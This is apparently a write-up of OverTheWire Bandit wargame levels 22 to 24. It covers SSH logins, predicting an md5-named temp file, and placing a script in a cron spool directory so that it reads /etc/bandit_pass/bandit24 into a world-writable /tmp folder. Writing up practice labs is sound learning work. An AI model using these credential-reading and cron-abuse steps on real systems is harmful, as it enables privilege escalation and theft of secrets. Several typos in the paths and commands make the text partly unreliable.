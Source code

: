 # level 22-23

- Command to connect remote host : `ssh bandit22@bandit.labs.overthewire.org -p 2220`
 password is `****`

After executing *cronjob_bandit23.sh* using `./cronjob_bandit23.sh` it generates a file in *tmp* directory and the name of the file is md5 hash containing bandit22.

If we change bandit23 to bandit23 then new hash is generated which is the name of new file in tmp directory which may contain password for level 23.

To generate new hash run `echo I am user bandit23 | md5sum | cut -d ' ' -f 1` on terminal. The new hash is *8ca319486bfbbc3663ea0fbe81326349* and this is the name of file in *tmp* directory.

To see password run `cat /tmp/8ca319486bfbbc3663ea0fbe81326349` and the password is `****` .

# level 23-24

- Command to connect remote host : `ssh bandit23@bandit.labs.overthewire.org -p 2220` password is `****` .

Execute these commands to know the content of crontab file and then content of the script file.

`cd /etc/cron.d/
ls
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh`

The command `cd /vars/pool/$myname`
 will change to *bandit24*
 directory and then all scripts in directory *bandit24*
 will be executed and then deleted. This is done in every 60 seconds as `timeout`
 is provided.

So if we put our script in */var/spool/bandit24* then it will be executed and then deleted. So we will write our script such that it will output password for next level.

We will create a directory *pcdir123* in */tmp* directory and change the permissions to readable, writeable and executable for *pcdir123*. (This is very important). The command are:

`mkdir /tmp/pcdir123
chmod 777 pcdir123`

Now create a script file *pass24script.sh* in */tmp/pcdir123* which will contain our script. The script is

`#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/pcdir123/pass24file`

*pass24script.sh*
 is not executable, so make it executable for all users using command `chmod 777 pass24script`.

 .

Copy this script in */var/spool/bandit/24* using command `cp pass24script.sh /var/spool/bandit24`
